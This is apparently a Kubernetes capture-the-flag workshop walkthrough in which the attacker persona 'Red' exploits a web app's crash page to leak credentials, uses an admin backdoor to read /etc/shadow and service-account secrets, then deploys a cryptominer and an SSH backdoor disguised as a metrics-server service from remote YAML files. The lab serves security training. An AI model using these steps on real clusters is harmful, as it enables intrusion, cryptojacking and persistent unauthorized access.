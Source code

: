 # Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value
* __Red__ is looking for free-to-them compute on which to run miners
* __Red__ purchased some leaked credentials from the dark web

## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Access

__Red__ team found an app online and ran a [dictionary attack](https://www.techtarget.com/searchsecurity/definition/dictionary-attack) against it.  Some valid paths were `/crash` and `/admin`.  Let's try to find an exploit!

To find the compromised website, run the following:
```
./scenario_1/attack-1-helper.sh
```

In your browser, go to URL provided (e.g. `http://<IP>:8080/`)

Hmm.  "Nothing to see here."?  They're probably wrong.

Let's try the Admin page: `http://<IP>:8080/admin`.  Hrm.  It's asking for credentials.  Since it was a browser popup (instead of an in-app request), it probably uses [Basic Auth](https://en.wikipedia.org/wiki/Basic_access_authentication).

Let's try the Crash page: `http://<IP>:8080/crash`

Looks like we've crashed the app!  And it prints out all of the environment variables.  Oh goodie.  There's two that seem to be especially interesting (AUTH_USERNAME and AUTH_PASSWORD).  Let's go back to the Admin page and try those.

Go back to the Admin page: `http://<IP>:8080/admin` and enter the credentials we just got.  

And we're in!  Looks like Frank left a backdoor to run some commands.  Let's see what we can learn:

```console
id
```

```console
uname -a
```

```console
cat /etc/lsb-release
```

```console
ps -ef
```

```console
df -h
```

Note that there are very few processes running. This is probably a container.

```console
cat /etc/shadow
```
```console
ls -l /
```
```console
ls -l $PWD
```
```console
echo $PATH
```

Can we add files to the default PATH?
```console
touch /usr/local/bin/foo && ls /usr/local/bin/
```

Let's follow-up on that idea that it's maybe a container and verify with [amicontained](https://github.com/genuinetools/amicontained):

```console
cd /usr/local/bin; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's probably managed by Kubernetes
* Some security features are not in use (userns)
* Seccomp is disabled, but a number of Syscalls are blocked
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

# Deploy Bitcoin miner + backdoor

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.28.10/bin/linux/amd64/kubectl; chmod 555 kubectl
```
```console
kubectl get all
```
What workloads are deployed in all of the namespaces?
```console
kubectl get all -A
```
What operations can I run on this cluster?
```console
kubectl auth can-i --list
```
Can I create pods?
```console
kubectl auth can-i create pods
```

It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
```console
kubectl apply -f https://raw.githubusercontent.com/lastcoolnameleft/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml; sleep 10; kubectl get pods
```

We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

```console
kubectl apply -n kube-system -f https://raw.githubusercontent.com/lastcoolnameleft/aks-ctf/refs/heads/main/workshop/scenario_1/backdoor.yaml
```

Wait ~10 seconds for the Public IP to be exposed
```console
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
```

Our Bitcoin miner is now deployed and we've also deployed an SSH backdoor.  Mission Accomplished.


